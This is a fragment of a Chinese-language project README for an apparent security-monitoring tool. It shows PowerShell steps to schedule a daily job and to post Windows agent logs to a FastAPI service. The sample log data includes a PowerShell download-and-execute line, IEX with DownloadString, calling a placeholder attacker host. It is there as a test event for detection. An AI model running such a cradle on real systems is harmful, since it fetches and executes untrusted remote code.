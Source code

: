 ```
```

#### 階段 7: 設定每日自動化排程

```powershell
# 以管理員身分執行排程設定腳本
.\schedule_daily_job.ps1

# 自訂參數
.\schedule_daily_job.ps1 -ExecutionTime "00:00" -TaskName "PandoraQuantumDailyJob"
```

**功能**:
- 在 Windows 工作排程器建立任務
- 每日 00:00 (TPE 時區) 自動執行
- 自動記錄日誌到 `logs/daily_job.log`
- 可手動測試執行

**管理指令**:
```powershell
# 查看任務狀態
Get-ScheduledTask -TaskName "PandoraQuantumDailyJob"

# 手動執行一次
Start-ScheduledTask -TaskName "PandoraQuantumDailyJob"

# 停用任務
Disable-ScheduledTask -TaskName "PandoraQuantumDailyJob"

# 查看日誌
Get-Content logs/daily_job.log -Tail 50
```

#### 階段 8: 整合 Windows Agent（實作中）

```powershell
# 啟動 FastAPI 服務
uvicorn main:app --host 0.0.0.0 --port 8000

# Windows Agent 發送日誌 (使用 curl 或 PowerShell)
$logData = @{
    agent_id = "AGENT001"
    hostname = "WIN-SERVER-01"
    timestamp = (Get-Date).ToString("yyyy-MM-dd HH:mm:ss")
    logs = @(
        @{event_id = 4625; user = "admin"; source_ip = "192.168.1.100"},
        @{event_id = 4104; script_block = "IEX (New-Object Net.WebClient).DownloadString('http://evil.com')"}
    )
}

Invoke-RestMethod -Uri "http://localhost:8000/api/v1/agent/log" `
    -Method POST `
    -ContentType "application/json" `
    -Body ($logData | ConvertTo-Json -Depth 10)
```
